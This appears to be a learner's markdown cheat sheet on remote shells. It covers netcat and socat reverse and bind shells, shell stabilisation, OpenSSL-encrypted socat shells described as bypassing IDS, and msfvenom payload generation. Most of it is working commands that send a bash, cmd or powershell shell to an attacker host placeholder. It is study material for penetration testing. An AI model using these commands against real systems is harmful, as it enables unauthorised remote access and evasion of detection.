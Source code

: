 ## what is shell

shell is what we use to interface with command line environment (cli) eg : bash or sh in linux, cmd.exe or powershell in windows.

## Type of shells

**Reverse shell**
when the target is forced to execute code that connects back to your computer. good way to bypass firewall. however you need to configure your own network to accept the shell. 

**Blind shell**
when the code executed on the target is used to start a listener attached to a shell directly on the target.


## Tools

### netcat
perform all kinds of network interactions. netcat shells are very unstable but we can improve it.

Reverse : `nc -nvlp port`
blind : `nc target_ip port`

*Stabilise shells 1*
- first use Python to spawn a better featured bash shell
`python -c 'import pty;pty.spawn("/bin/bash")'`

- second get access to term cmd (eg : `clear`) 
`export TERM=screen`

- third backgraound shell : `ctrl+z`

- next turn off our own terminal echo and forground the shell.
`stty raw -echo; fg`

(dont forgot `stty -a` then add rows and columns on target shell `stty rows <number>`)

*stabilise shell 2*
rlwrap is a program which gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell;

`rlwrap nc -lvnp <port>`

then use step 3 and 4 in above steps.

### socat
netcat on steroid. socat shells are stable but syntax is difficult and also `nc` is pre-installed on most of linux. this is not case with socat.

**Reverse shell**
`socat TCP-L:<port> -`

On Windows we would use this command to connect back:
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` (the pipes option force powershell or cmd.exe to use Unix style standard input and output.)

On Linux we would use this cmd to connect back :
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

**Bind shells**

Linux Target : `socat TCP-L:<PORT> EXEC:"bash -li"`
Windows Target : `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

Attacking machine : `socat TCP:<TARGET-IP>:<TARGET-PORT> -`

**encrypted shell**

with socat we can create encrypted shell both blind and reverse. its able to bypass IDS. 

syntax : replace `TCP` with `OPENSSL` in above syntax in encrypted shells.
- generate a certificate :
`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

this will generate 2048 bit rsa key. 

- need to merge the two created files into a single `.pem` file.

`cat shell.key shell.crt > shell.pem`

- set up reverse shell listener
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -` 
to connect from victim machine:
`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

- blind shell
taget : `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
attacker : `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

*note : you have to transfer the cert file (pem)*

### Metasploit -- multi/handler
The `auxiliary/multi/handler` module of the Metasploit framework is, like socat and netcat, used to receive reverse shells. 


### msfvenome
part of msf framework but shipped as separate tool. Used to generate payloads.

`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

p: payload
f : format (exe,sh)

- naming convention
`<OS>/<arch>/<payload>`

The exception to this convention is Windows 32bit targets. For these, the arch is not specified, eg : `windows/shell_reverse_tcp`
For a 64bit Windows target, the arch would be specified as normal (x64).

stageless payload denoted `_` while staged payload denotes `/` between shell and reverse. eg :`shell_reverse_tcp` and `shell/reverse_tcp`

list payloas : `msfvenom --list payloads`

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet


